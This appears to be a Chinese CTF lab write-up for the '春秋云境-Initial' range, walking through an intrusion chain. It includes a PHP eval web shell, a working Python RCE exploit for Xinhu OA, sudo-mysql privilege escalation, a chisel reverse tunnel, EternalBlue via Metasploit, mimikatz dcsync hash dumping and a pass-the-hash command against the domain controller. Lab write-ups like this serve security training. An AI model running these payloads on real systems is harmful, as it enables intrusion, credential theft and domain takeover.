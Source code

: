 ```yaml
---
title: 春秋云境-Initial
subtitle:
date: 2025-03-14T14:19:42+08:00
slug: 8c9f848
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 春秋云境
categories:
  - 春秋云境
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/b26f9fd59f01b8c198e5d89cdbdbf684.png)

外网打点

``` Shell
fscan -h 39.98.109.170
```



![](images/75b7336bfeb8fcde6d1a76ac6635c29d.png)

ico发现是Thinkphp

![](images/41ad37689e7c7b7cd9893aa9c6b90712.png)

Thinkphp综合利用工具

![](images/2cda5015a42cc1de1e1120ad6bfd24c5.png)

Getshell并进行传马

![](images/8c6d010e7f90dc253b9eb9bc31fe0f7d.png)

蚁剑连接

![](images/a419d62e170b68d15c58f7164ccbc2af.png)

尝试读取root，发现并没有权限

![](images/adca8dffec2ddaf0527401de69b2c80a.png)

尝试提权，suid不可利用，尝试sudo提权

![](images/3ad1c22f4b574350cf9920e0eb4ce993.png)

mysql配置了免密使用，mysql暂时拿到root权限，使用mysql -e命令即可，使用mysql -e命令查找root用户中的flag文件

``` Shell
sudo mysql -e '\! find / -name flag*'
```



![](images/c52ffdced9ffb469cd2b9624247f0d6c.png)

发现flag01.txt文件

![](images/d1059562426618ba3782e70921d3249c.png)

读取内容

``` Shell
sudo mysql -e '\! cat /root/flag/flag01.txt'
```



![](images/4b618a54fab991c70107bc187ae1f37e.png)

扫描内网，上传fscan到`/tmp`，并给予权限

![](images/eaa9c7175e9f77c29a7ac109a5585429.png)



```
chmod 777 fscan
```

查看网卡信息，并进行扫描

``` Shell
ip addr
```



![](images/e6175cc57bbd5cf7570297c69597456f.png)



``` Shell
./fscan -h 172.22.1.0/24 >> fscan.txt
```



![](images/6fe3a60941b9399c5bf52ec1524ee90a.png)

从结果可以得到目标
172.22.1.2:DC域控  
172.22.1.21:Windows的机器并且存在MS17-010 漏洞  
172.22.1.18:信呼OA办公系统
接下来搭建frp内网穿透，vps当作跳板机
上传chisel到`/tmp`，给予权限并运行

```
靶机
./chisel client vps_ip:9001 R:0.0.0.0:9002:socks

vps
./chisel server -p 9001 --reverse
```



![](images/0522a523ca8072ddc8af35cc7bbb7a00.png)



![](images/c8d57b364422ae14f96414e69d36e252.png)



代理成功，尝试访问信呼OA



![](images/dac60f4ec4f7a92855a83e5f5817156d.png)



![](images/9fbfa2a2f1c89c51877ba54bdcbcd058.png)

尝试弱口令爆破进入管理系统admin/admin123，登陆以后信呼OA存在rce，直接用exp打

``` 1.php
<?php @eval($_POST['t1ng']);?>
```

两个文件须在同一目录下

``` exp.py
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```



![](images/6be8e70fb538aafca29943133c6f5ca7.png)

蚁剑设置代理，并且按照给出路径进行连接

![](images/7ee0b9505a2d9bf4e836c8fca17068e0.png)



![](images/998afd0e487b47cd6058be4ec10c939f.png)

在`C:/Users/Administrator/flag/flag02.txt`拿到第二部分flag

![](images/dd598f94e23105fdfb157f8b107c67c2.png)

先打172.22.1.21的MS17-010的永恒之蓝
配置一下kali虚拟机的socks5代理

```
vim /etc/proxychains4.conf

内容
socks5 vps_ip 9002 
```

接下来msf打永恒之蓝

```
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
exploit
```



![](images/d57d574f0008bf9cb865cd235ee3c56d.png)

拿到SYSTEM权限，`load kiwi`调用mimikatz模块，获取域内用户hash

```
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```



![](images/808e5419b46d82bf8ffdc4dc9451ccc0.png)

用crackmapexec打PTH拿下域控

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```



![](images/7f5326b1e7ce49a322bcd40960eff27d.png)

拿到第三段flag。

flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
